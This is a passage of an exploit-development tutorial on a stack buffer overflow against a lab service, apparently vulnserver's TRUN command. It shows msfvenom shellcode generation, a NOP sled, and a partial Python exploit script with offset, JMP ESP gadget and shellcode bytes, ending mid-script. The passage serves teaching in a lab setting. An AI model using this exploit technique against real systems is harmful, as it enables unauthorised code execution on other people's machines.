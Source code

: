 A popular target is the notorious Windows calculator.

You can use (once again) a metasploit tool named msfvenom in order to create this payload:

```bash
$ msfvenom -p windows/exec CMD=calc.exe -b '\x00\x0A' -f python -v payload

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
Final size of python file: 1180 bytes
payload =  b""
payload += b"\xdb\xc1\xbf\x08\x54\xa2\x44\xd9\x74\x24\xf4\x5a"
payload += b"\x29\xc9\xb1\x31\x31\x7a\x18\x83\xea\xfc\x03\x7a"
# ...
```

Please note that we gave msfvenom our badchars via the `-b` parameter.

But if you just put that payload right after the EIP overwrite you will notice it does not work.

Often shellcode requires some space to "do its thing".

That's why it is common practice to add some NOP's before the shellcode. There are some other methods, but I don't want to get into the weeds here.

A NOP `0x90` instruction is short for "no operation". It simply does nothing. That makes it useful for padding and stack alignment.

I added 32 NOPs before the pop calc shellcode, for good measures.


```python
NOP = b"\x90"
# ...
buf += NOP * 32
buf += payload
# ...
```

We have enough space after the EIP overwrite, so it does not matter too much.

Here is the calc popper script:

```python
#!/usr/bin/env python3
# TRUN - Step 6 - Pop Calc
import socket
import struct

offset = 2005
size = 4096
target_ip = "10.0.2.74"
target_port = 9999
line_ending = b"\n"         # new line 0x0a
badchars = [ 0x00, 0x0a ]   # found badchars
esp_gadget_address = 0x625011af
esp_gadget = struct.pack("<I", esp_gadget_address)
NOP = b"\x90"

# msfvenom -p windows/exec CMD=calc.exe -b '\x00\x0A' -f python -v payload
payload =  b""
payload += b"\xdb\xd7\xbe\x81\x73\xbe\xe6\xd9\x74\x24\xf4\x5a"
payload += b"\x33\xc9\xb1\x31\x83\xc2\x04\x31\x72\x14\x03\x72"
payload += b"\x95\x91\x4b\x1a\x7d\xd7\xb4\xe3\x7d\xb8\x3d\x06"
payload += b"\x4c\xf8\x5a\x42\xfe\xc8\x29\x06\xf2\xa3\x7c\xb3"
```